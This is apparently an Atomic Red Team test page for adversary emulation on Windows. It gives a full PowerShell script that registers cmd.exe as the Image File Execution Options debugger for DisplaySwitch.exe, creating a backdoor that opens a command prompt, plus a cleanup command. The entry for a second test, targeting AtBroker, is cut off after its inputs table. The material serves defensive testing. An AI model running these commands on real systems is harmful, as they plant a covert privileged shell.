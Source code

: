 <br/>
<br/>

## Atomic Test #6 - Attaches Command Prompt As Debugger To Process - DisplaySwitch
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | DisplaySwitch.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #7 - Attaches Command Prompt As Debugger To Process - AtBroker
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | atbroker.exe|
